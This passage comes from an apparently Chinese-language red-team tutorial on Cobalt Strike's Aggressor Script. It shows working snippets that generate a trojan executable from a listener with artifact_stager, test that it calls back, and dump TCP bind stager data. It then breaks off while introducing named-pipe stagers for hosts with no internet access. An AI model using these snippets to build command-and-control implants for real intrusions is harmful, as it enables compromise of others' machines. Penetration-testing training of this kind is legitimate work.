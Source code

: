 我们使用 artifact_stager进行生成：

```shell
$data = artifact_stager("Tencent", "exe", "x64"); #选择监听器、生成类型、位数

$handle = openf(">Kris.exe"); # 生成的路径，这里是在当前执行的路径下
writeb($handle, $data); # 写入
closef($handle); # 关闭写入，不关闭会一直卡住	
```

我们执行:

![image-20201214145716511](/assets/wgpsec/images/Aggressor-Script/image-20201214145716511.png)

然后运行这个木马，看看是否可以上线：

![image-20201214145811630](/assets/wgpsec/images/Aggressor-Script/image-20201214145811630.png)

可以上线，在GUI中也是使用的这个 数据模型 创建。



## Local Stagers

> 本地的Stager信息

我们上面提到了监听器的信息有 本地监听器和云端监听器，那么对于本地的正向链接的 TCP Listener 我们就可以使用 stager_bind_tcp 这个数据模型来查看，这个数据模型只能查看 TCP 类型的 Stager，他需要接受三个参数：

`$1` 我们创建的 TCP 监听名字

`$2` 监听器的位数

 `$3` 监听器的链接端口



我们使用下面的代码查看一下我们的 TCP stager信息：

```shell
$TcpStager = stager_bind_tcp("你的TCP监听器名称","位数","bind to 端口");
elog($TcpStager);
```

![image-20201215142818777](/assets/wgpsec/images/Aggressor-Script/image-20201215142818777.png)

![image-20201215142751398](/assets/wgpsec/images/Aggressor-Script/image-20201215142751398.png)

实测加了端口也没有变化：

![image-20201215142952923](/assets/wgpsec/images/Aggressor-Script/image-20201215142952923.png)





## Named Pipe Stager

Pipe Stager是内网渗透中，用于不能出网的主机的一种加载器，他只有 X86 的选择，我们可以使用 stager_bind_pipe 数据模型导出对应的 SMB 监听，他需要接受的参数如下：
